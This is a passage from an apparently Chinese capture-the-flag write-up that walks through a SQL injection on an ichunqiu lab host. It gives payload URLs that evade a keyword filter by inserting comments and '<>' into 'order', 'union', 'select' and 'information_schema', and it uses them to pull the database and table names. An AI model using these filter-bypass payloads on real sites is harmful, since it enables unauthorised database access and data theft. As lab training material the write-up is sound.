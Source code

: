 ![](35.png)  
成功返回东西，说明这样可以绕过，那么试一下4：  
`http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 or/**/der by 4`  
![](36.png)  
返回为空，说明字段为3.  
然后开始注入：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">获取数据库名：</span><br><span class="line">http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 uni&lt;&gt;on se&lt;&gt;lect 1,database(),3</span><br></pre></td></tr></tbody></table>

  
数据库：sqli  
![](37.png)

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">获取表名：</span><br><span class="line">	http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 uni&lt;&gt;on se&lt;&gt;lect 1,group_concat(table_name),3 from info&lt;&gt;rmation_schema.tables where table_schema='sqli'</span><br><span class="line">	表：info</span><br></pre></td></tr></tbody></table>
